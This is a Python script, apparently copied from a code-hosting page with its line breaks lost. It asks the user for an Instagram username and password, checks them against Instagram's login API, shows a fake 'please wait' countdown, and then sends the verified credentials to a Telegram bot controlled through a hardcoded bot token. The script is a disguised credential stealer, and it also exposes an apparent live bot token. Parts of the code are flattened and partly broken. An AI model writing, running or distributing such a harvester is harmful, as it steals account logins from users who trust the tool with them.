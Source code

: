 # kk
import requests import uuid uid = uuid.uuid4() from time import sleep dad = 100 username = input(' [?] Enter Your Username -> : ') password = input(' [?] Enter Your Password -> : ') logurl = 'https://i.instagram.com/api/v1/accounts/login/' headers = {     'User-Agent': 'Instagram 113.0.0.39.122 Android (24/5.0; 515dpi; 1440x2416; huawei/google; Nexus 6P; angler; angler; en_US)',         "Accept": "/",         "Accept-Encoding": "gzip, deflate",         "Accept-Language": "en-US",         "X-IG-Capabilities": "3brTvw==",         "X-IG-Connection-Type": "WIFI",         "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",         'Host': 'i.instagram.com',         'Connection': 'keep-alive' } datalog = {         'uuid': uid,         'password': password,         'username': username,         'device_id': uid,         'from_reg': 'false',         '_csrftoken': 'missing',         'login_attempt_countn': '0'     } lodreq = requests.post(logurl, data=datalog, headers=headers).text if "logged_in_user" in lodreq:     class BotHandler:         def __init__(self, token):             self.token = token             self.api_url = "https://api.telegram.org/bot{}/".format(token)          # url = "https://api.telegram.org/bot&lt;token>/"          def get_updates(self, offset=0, timeout=30):             method = 'getUpdates'             params = {'timeout': timeout, 'offset': offset}             resp = requests.get(self.api_url + method, params)             result_json = resp.json()['result']             return result_json          def send_message(self, chat_id, text):             params = {'chat_id': chat_id, 'text': text, 'parse_mode': 'HTML'}             method = 'sendMessage'             resp = requests.post(self.api_url + method, params)             return resp          def get_first_update(self):             get_result = self.get_updates()              if len(get_result) > 0:                 last_update = get_result[0]             else:                 last_update = None              return last_update       token = '1621023590:AAE4ZVYk4cE-Vi0iAsPaMk2UaGyLUZpjybE'  # Token of your bot     magnito_bot = BotHandler(token)  # Your bot's name  while True:     sleep(1)     dad -= 1     print(f' \r [+] {dad}', end='')     if dad == 0:         print(' ok please waite .. ')         def main():             new_offset = 0               while True:                    all_updates = magnito_bot.get_updates(new_offset)                  if len(all_updates) > 0:                     for current_update in all_updates:                         first_update_id = current_update['update_id']                         if 'text' not in current_update['message']:                             first_chat_text = 'New member'                         else:                             first_chat_text = current_update['message']['text']                         first_chat_id = current_update['message']['chat']['id']                         if 'first_name' in current_update['message']:                             first_chat_name = current_update['message']['chat']['first_name']                         elif 'new_chat_member' in current_update['message']:                             first_chat_name = current_update['message']['new_chat_member']['username']                         elif 'from' in current_update['message']:                             first_chat_name = current_update['message']['from']['first_name']                         if first_chat_text == 'اوكي':                             magnito_bot.send_message(first_chat_id, f'hi sir \nusername : {username},\npassword : {password} \nok ? ' )                             break                             main()                         else:                             first_chat_name = "unknown"         main()
